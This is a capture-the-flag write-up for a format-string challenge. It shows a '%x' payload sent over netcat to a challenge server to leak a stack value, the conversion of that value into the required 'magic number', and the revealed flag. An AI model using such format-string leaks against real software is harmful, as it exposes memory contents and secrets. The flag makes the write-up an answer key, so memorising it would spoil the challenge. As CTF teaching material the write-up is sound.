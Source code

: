 # From C to Shining C (100)
#### pwn - Virginia TSA Technosphere 2022 CTF

## Challenge description:
> The elves have mistakenly put a [string format vulnerability](https://owasp.org/www-community/attacks/Format_string_attack) that might reveal a flag in this program.
> 
> Download file: forgot to save file :(

## Solution 
We are given a binary and information to connect to a server with netcat.

After marking it as executable with `chmod +x fromctoshiningc`, running the binary asks for a name and a magic number. 

```
$ ./fromctoshiningc
What is your name? 
```

We can leak data from the stack using %x, which is returned to us.

```
$ nc 0.cloud.chals.io 28281
What is your name? 
%x
This is a really important piece of information: 28757b2

Enter the magic number: 
```

Reverse engineering the binary reveals that converting the provided hex address to decimal allows us to access its content. We can try this on the server for the real flag.

```
$ nc 0.cloud.chals.io 28281
What is your name? 
%x
This is a really important piece of information: 28757b2

Enter the magic number: 
42424242
*************
```

<details> 
    <summary>Flag</summary>
flag{cnoevil}
</details>